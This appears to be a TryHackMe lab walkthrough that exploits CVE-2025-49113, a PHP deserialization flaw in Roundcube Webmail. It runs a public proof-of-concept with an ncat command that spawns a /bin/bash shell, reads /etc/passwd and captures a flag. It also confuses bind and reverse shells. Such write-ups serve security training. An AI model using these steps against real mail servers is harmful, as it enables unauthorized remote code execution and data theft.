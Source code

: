 ```yaml
---
title: "TryHackMe - CVE-2025-49113 Webmail Deserialization Walkthrough"
date: 2025-06-28
categories: [TryHackMe]
tags: [CTF, Deserialization, Webmail, PHP, Reverse Shel, CVE-2025-49113]
image: assets/images/thm-cover/cve-2025-49113-cover.jpg
---
```


# TryHackMe - CVE-2025-49113 Webmail Deserialization Walkthrough

---

## Step 1: Gaining Access to Roundcube Webmail
Start by navigating to the Roundcube Webmail login page and use the provided credentials to log in.

**Credentials**:
- **Username**: `ellieptic`
- **Password**: `ChangeMe123`

---

## Step 2: Downloading the PoC Exploit
Download the proof of concept (PoC) exploit from the GitHub repository.

```bash
sleep33@THM:~$ git clone https://github.com/fearsoff-org/CVE-2025-49113
```

Once downloaded, navigate to the folder containing the exploit files.

```bash
sleep33@THM:~$ cd CVE-2025-49113/
root@attackbox:~/CVE-2025-49113# ls
CVE-2025-49113.php  rc_install.sh  README.md
```

---

## Step 3: Running the Exploit
The PoC exploit involves creating a malicious serialized PHP object and injecting it via the `_from` parameter in the `upload.php` endpoint.

Run the PoC script to execute the payload, using the following arguments:

```bash
root@attackbox:~/CVE-2025-49113# php CVE-2025-49113.php http://<TARGET_IP>/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
```

### Result:
- The script successfully authenticates the user.
- The malicious payload is injected into the `_from` parameter.
- The server executes the payload, establishing a bind shell on port 4444.

---

## Step 4: Establishing Reverse Shell
Once the payload is successfully executed, open a listener on port 4444 to catch the reverse shell.

```bash
sleep33@THM:~$ nc -lvnp 4444
```

### Result:
After a short delay, the shell connects back to your listener, giving you access to the server as the `www-data` user.

---

## Step 5: Searching for User Information
Search the system to identify users and gather information. Use the following command to find user details:

```bash
sleep33@THM:~$ grep "maggie" /etc/passwd
```

### Result:
- **User Found**: `maggiebyte`
- **Full Name**: `Maggie Byte`

This gave us a clue about the user we needed to find.

---

## Step 6: Searching for the Flag
Explore the `/etc` directory for a potential flag file. After listing the contents of `/etc`, you find the `flag.txt` file.

```bash
sleep33@THM:~$ cat /etc/flag.txt
```

### Flag Found:
**Flag**:
```
THM{ICE_CUBE_DESERIALISATION}
```

This is the first flag, and it corresponds to the **deserialization** vulnerability and the successful exploitation of it.

---

## Summary
In this walkthrough, we exploited a **deserialization vulnerability** in Roundcube Webmail, using a **PoC exploit** to inject a malicious payload that gave us a reverse shell. We escalated our knowledge by identifying the username and name of the user `Maggie Byte`, and eventually located the flag in the `/etc` directory.

### Flags Summary:
- **Flag 1**: `THM{ICE_CUBE_DESERIALISATION}`

---

This concludes the walkthrough for the **CVE-2025-49113** vulnerability in Roundcube Webmail. By exploiting deserialization, we gained access to the server and successfully retrieved the flag.
